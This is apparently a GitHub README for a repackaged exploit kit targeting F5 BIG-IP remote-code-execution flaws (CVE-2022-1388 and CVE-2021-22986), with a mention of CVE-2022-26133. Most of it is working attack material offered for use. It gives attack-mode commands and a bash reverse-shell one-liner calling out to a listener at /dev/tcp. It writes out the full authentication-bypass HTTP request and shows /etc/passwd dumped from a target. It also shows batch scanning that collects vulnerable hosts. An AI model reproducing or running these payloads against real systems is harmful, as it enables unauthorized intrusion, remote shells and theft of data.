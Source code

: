 # 2022-2021-RCE
I modified it so you can use CVE-2022-1388/CVE-2021-22986 and F5 BIG-IP RCE vuln checks and exploiters
the normal check.py and exp.py is 2022 but CVE_2021, newpoc, and f5.rest.jar are from the 2021 version
Idk why but I added the CVE-2022-1388 REST Auth Bypass RCE

but all you gotta do is do python check.py to see all cmds

<strong>2021/CVE_2021 Basic use</strong>
```
python3 CVE_2021.py
```
```
Vuln check: python3 CVE_2021_.py -v true -u https://192.168.174.164
```
```
command execute: python3 CVE_2021.py -a true -u https://192.168.174.164 -c id
```
```
python3 CVE_2021.py -a true -u https://192.168.174.164 -c whoami
```
```
batch scan: python3 CVE_2021_.py -s true -f url.txt
```
```
Reserve Shell: python3 CVE_2021.py -r true -u https://192.168.174.164 -c "bash -i >&/dev/tcp/192.168.174.129/8888 0>&1"
```
```
New POC: python3 newpoc.py https://192.168.174.164
```
```
Validation mode：python CVE_2021.py -v true -u target_url 
```
```
Attack mode：python CVE_2021.py -a true -u target_url -c command 
```
```
Batch detection：python CVE_2021.py -s true -f file
```
```
Bounce mode：python CVE_2021.py -r true -u target_url -c command 
```
<strong>2022/Check.py Basic use</strong>

Vulnerability name: F5 BIG-IP iControl Rest API exposed Check

```
Function: single detection, batch detection    
```
```
Single detection：python exp.py -u url
```
```
Batch detection：python exp.py -f url.txt
```
```
Check: python check.py -f url.txt
```
<strong>2022/CVE-1388.py basic usage</strong>

this is the CVE-2022-1388 REST Auth Bypass RCE

```http
POST /mgmt/tm/util/bash HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close, X-F5-Auth-Token, X-Forwarded-For, Local-Ip-From-Httpd, X-F5-New-Authtok-Reqd, X-Forwarded-Server, X-Forwarded-Host
Content-type: application/json
X-F5-Auth-Token: anything
Authorization: Basic YWRtaW46
Content-Length: 42

{"command": "run", "utilCmdArgs": "-c id"}
```

Vulnerability detection against a URL.

```bash
$ python CVE-2022-1388.py -u https://192.168.2.110
[+] https://192.168.2.110 is vulnerable!!!
```

Execute arbitrary commands.

```bash
$ python CVE-2022-1388.py -u https://192.168.2.110 -c 'cat /etc/passwd'
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
tmshnobody:x:32765:32765:tmshnobody:/:/sbin/nologin
admin:x:0:500:Admin User:/home/admin:/usr/bin/tmsh
qemu:x:107:107:qemu user:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
oprofile:x:16:16:Special user account to be used by OProfile:/:/sbin/nologin
syscheck:x:199:10::/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
f5_remoteuser:x:499:499:f5 remote user account:/home/f5_remoteuser:/sbin/nologin
......
```

Read all URLs in the file and perform vulnerability detection.

```bash
$ python CVE-2022-1388.py -f urls.txt
[-] https://10.1.6.5 is not vulnerable.
[+] https://10.1.92.34 is vulnerable!!!
[+] https://10.2.124.144 is vulnerable!!!
[+] https://10.1.194.22 is vulnerable!!!
[+] https://10.2.21.132 is vulnerable!!!
[+] https://10.1.236.2 is vulnerable!!!
[+] https://10.3.155.2 is vulnerable!!!
[+] https://10.2.155.4 is vulnerable!!!
[+] https://10.3.151.92 is vulnerable!!!
[+] https://10.4.139.131 is vulnerable!!!
[+] https://10.7.226.141 is vulnerable!!!
[+] https://10.1.129.53 is vulnerable!!!
[+] https://10.9.45.2 is vulnerable!!!
[+] https://10.5.96.105 is vulnerable!!!
[+] https://10.3.156.6 is vulnerable!!!
$ cat success.txt
https://10.1.92.34
https://10.2.124.144
https://10.1.194.22
https://10.2.21.132
https://10.1.236.2
https://10.3.155.2
https://10.2.155.4
https://10.3.151.92
https://10.4.139.131
https://10.7.226.141
https://10.1.129.53
https://10.9.45.2
https://10.5.96.105
https://10.3.156.6
```
<strong>exp.py basic usage</strong>

```
       Validation mode：python CVE_2022.py -v true -u target_url 
       Attack mode：python CVE_2022.py -a true -u target_url -c command 
       Batch detection：python CVE_2022.py -s true -f file
       Bounce mode：python CVE_2022.py -r true -u target_url -c command 
      ================================================================
       Validation mode：python exp.py -v true -u target_url 
       Attack mode：python exp.py -a true -u target_url -c command 
       Batch detection：python exp.py -s true -f file
       Bounce mode：python exp.py -r true -u target_url -c command 
```

<strong>CVE-26133.py basic usage</strong>

```
python3 CVE-2022-26133.py -u http://192.168.110.136:7990 -f target.txt
```
